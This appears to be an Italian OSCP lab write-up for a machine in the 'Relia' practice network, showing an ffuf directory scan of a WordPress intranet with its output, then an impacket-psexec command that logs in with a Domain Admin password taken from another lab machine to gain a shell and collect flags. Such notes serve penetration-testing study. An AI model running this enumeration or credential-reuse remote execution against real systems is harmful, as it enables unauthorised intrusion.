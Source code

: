 ![](/OSCP/Immagini_OSCP/Relia/7_port_80.png)


Cliccando sul link relia intranet vengo reinderizzato alla intranet.

Lancio questo comando:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://172.16.165.7/wordpress/FUZZ
```

E ottengo questo risultato:

```bash
rss                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 2089ms]
login                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 949ms]
0                       [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 448ms]
feed                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 218ms]
wp-content              [Status: 301, Size: 352, Words: 22, Lines: 10, Duration: 76ms]
atom                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 9090ms]
admin                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1918ms]
rss2                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 1789ms]
wp-includes             [Status: 301, Size: 353, Words: 22, Lines: 10, Duration: 43ms]
rdf                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 3018ms]
page1                   [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 3240ms]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 2867ms]
```

Ma niente di interessante.

Una volta trovate le credenziali del Domain Admin sulla macchina 21, utilizzo questo comando per accedere e collezionare tutte le flag presenti su questa macchina:

```bash
impacket-psexec relia.com/Administrator:"vau\!XCKjNQBv2$"@172.16.165.7
```
